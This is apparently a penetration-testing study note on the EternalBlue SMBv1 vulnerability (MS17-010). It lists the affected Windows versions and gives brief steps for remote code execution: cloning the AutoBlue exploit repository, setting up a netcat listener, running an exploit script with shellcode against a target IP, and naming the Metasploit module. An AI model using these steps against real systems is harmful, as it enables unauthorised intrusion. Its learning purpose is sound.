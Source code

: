 ```yaml
---
description: https://github.com/3ndG4me/AutoBlue-MS17-010
---
```


# Vulnerability Analysis: EternalBlue

## MS17-010 EternalBlue Exploit

* EternalBlue (<mark style="color:red;">MS17-010/CVE-2017-0144</mark>) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
* The EternalBlue exploit takes advantage of a vulnerability in the <mark style="color:green;">Windows SMBv1</mark> protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.

#### This vulnerability affects multiple versions of Windows:&#x20;

* Windows Vista&#x20;
* Windows 7&#x20;
* Windows Server 2008&#x20;
* Windows 8.1&#x20;
* Windows Server 2012&#x20;
* Windows 10&#x20;
* Windows Server 2016

The EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.

## Practical Demo

### Manual Exploitation

Clone [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) into computer.

Follow the instructions in github.

#### Commands:

* "<mark style="color:yellow;">chmod +x shellprep.sh</mark>"

Set options.

Set the netcat listener.

Run the eternalblue script associated with the target operating system.

Give the script execute permissions.

#### To run exploit:

* "<mark style="color:yellow;">python eternalblue\_exploit7.py" 'targetIP' 'shellcode/sc\_x64.bin</mark>'"

## MSF EternalBlue exploit

Module used:

* "<mark style="color:yellow;">exploit/windows/smb/ms017\_010\_eternalblue</mark>"
